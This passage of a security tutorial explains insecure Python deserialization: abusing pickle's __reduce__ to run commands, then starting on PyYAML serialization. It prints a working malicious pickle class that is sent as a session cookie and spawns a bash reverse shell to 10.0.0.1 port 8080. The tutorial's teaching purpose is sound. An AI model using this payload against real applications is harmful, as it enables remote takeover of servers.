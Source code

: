 ### Code Execution

Now for the even more exciting part: achieving code execution by utilizing insecure pickle deserialization!

Remember, a pickle can represent any arbitrary Python object. When an application unpickles a pickle, it is instantiating a new object of that class.

The pickle class allows objects to declare how they should be pickled via the __reduce__ method. This method takes no argument and returns either a string or a tuple. When returning a tuple, the tuple will dictate how the object is reconstructed during unpickling. The tuple should be in the form of:

```python
(callable object that will be called to instantiate the new object, a tuple of arguments for that callable object)
```

This means that if an attacker defines a __reduce__ method in an object, the pickled object could be instantiated as something else during unpickling. Now if the attacker constructs a malicious object like this:

```python
class Malicious:
  def __reduce__(self):
    return (os.system, ('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1',))

fake_object = Malicious()
session_cookie = base64.b64encode(pickle.dumps(fake_object))
```

She can make the victim application call the following upon unpickling:

```python
os.system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')
```

This would spawn a reverse shell to the IP 10.0.0.1 on port 8080.

## Exploiting YAML parsing

Another way that insecure deserialization can endanger Python applications is through the loading of YAML files.

YAML, interesting enough, stands for "YAML Ain't Markup Language". It is a data serialization standard that is widely used across programming languages. In Python, PyYaml is the most popular YAML processor.

YAML files, similar to pickles, can represent arbitrary Python objects. In PyYaml, you can package a Python object into a YAML document like so:

```python
class Person:
  def __init__(self, name):
    self.name = name

new_person = Person("Vickie")
print(yaml.dump(new_person))
```
